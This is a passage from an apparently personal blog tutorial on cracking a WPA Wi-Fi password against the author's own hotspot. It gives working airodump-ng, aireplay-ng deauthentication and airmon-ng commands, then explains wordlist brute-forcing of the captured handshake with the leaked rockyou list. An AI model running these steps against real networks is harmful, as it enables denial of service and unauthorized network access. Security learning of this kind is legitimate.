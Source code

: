 From the results, you can see a wifi hotspot that I have prepared called “POCO X3 Pro”. So, the next step is to capture the packets usign `airodump-ng`

// Capture the packets and export it to your machine  
sudo airodump-ng --bssid [target-bssid] -c [channel-id] --write [filename] [network-adapter]

![](https://miro.medium.com/v2/resize:fit:700/0*oeqDhf2vFGMrXAhu)

![](https://miro.medium.com/v2/resize:fit:700/0*qM-gSP_d9fcVmKiE)

There is one device that is connected to the wifi hotspot that I have prepared. So, while that is running, you’re going to run your de-authentication attack against the device connected to make the device re-establish a connection so you can capture the 4-way handshake.

// Deauth the users that are connected to the target network  
// User will need to input the wifi password to connect again  
sudo aireplay-ng --deauth [number-of-packets(>50)] -a [target-bssid] [network-adapter]

![](https://miro.medium.com/v2/resize:fit:700/1*PHgoZiFOtlcDJdM62d-m3Q.png)

![](https://miro.medium.com/v2/resize:fit:700/1*eKkFF98E9LxEERLWIZVzTQ.png)

// If there is an error caused by the channel like the image bellow,  
// Restart the interface with the target channel  
sudo airmon-ng start [network-adapter] [target-channel]

![](https://miro.medium.com/v2/resize:fit:700/0*BdcTU6EpLr9W0Skh)

![](https://miro.medium.com/v2/resize:fit:700/0*q0C6UJBN5fr4Y6jZ)

While the DOS attack is underway, check on your airodump scan. You should see at the right top : `WPA handshake: <mac address>`. Once you have verified that, you can stop the replay attack and the `airodump-ng` scan.

![](https://miro.medium.com/v2/resize:fit:700/0*-7dhIIl6kDRY7PLO)

![](https://miro.medium.com/v2/resize:fit:700/0*cKH26b9bRQ9iy4fk)

# Crack the Password

In the final steps, we are going to run a bunch of generated Pairwise Master Key (PMK) against the captured packets to brute force the password.

A PKM is an algorithmic combination of a word and the APs name. So, our target is to continuously generating PMKs using a wordlist against the handshake until a valid PMK is found.

// Everytime you restart the capture, another file will be made  
// So make sure to choose the right file

![](https://miro.medium.com/v2/resize:fit:700/0*4ZE2CFcxPdwXrl9x)

There are several wordlist that can be used to crack the password and one of the most popular one is `rockyou`. The rockyou wordlist is a bunch of passwords gotten from one of the most infamous cybersecurity data breaches that affected a company of the same name. It contains approximately 14 million unique passwords that were used in over 32 million accounts and as such, is one of the most dependable wordlists on the planet.
